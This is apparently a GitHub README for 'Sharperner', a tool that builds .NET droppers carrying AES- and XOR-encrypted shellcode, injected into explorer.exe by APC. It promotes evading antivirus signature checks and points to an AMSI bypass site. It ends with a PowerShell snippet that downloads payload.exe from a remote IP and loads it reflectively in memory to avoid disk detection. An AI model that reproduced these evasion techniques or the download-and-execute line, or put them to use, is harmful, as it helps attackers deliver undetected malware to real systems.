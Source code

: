 # Sharperner
**Sharperner** is a tool written in CSharp that generate .NET dropper with AES and XOR obfuscated shellcode. Generated executable can possibly bypass signature check but I cant be sure it can bypass heuristic scanning. 

![](./src/images/scan.PNG)

### Functionalities
* Support multiple shellcode input
* AES + XOR encrypted shellcode
* APC Process Injection (explorer.exe)
* Random generated AES key and iv
* Final Shellcode, Key and IV are translated to morse code :)

### Usage
```
/file         B64 shellcode file
/key        XOR Key (Optional)
/out        Output file Location (Optional)

Example:
Sharperner.exe /file:file.txt
Sharperner.exe /file:file.txt /key:'l0v3151nth3a1ry000www' /out:payload.exe
```

### To-do
* Implement c++ dropper
* Implement direct syscalls
* Process Hollowing, PID spoofing

### Suggestion
To avoid touching the disk, Generated .NET executable can be loaded reflectively with powershell. AMSI is the enemy now, [amsi.fail](https://amsi.fail) ftw!
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/payload.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[TotallyNotMal.Program]::Main()
```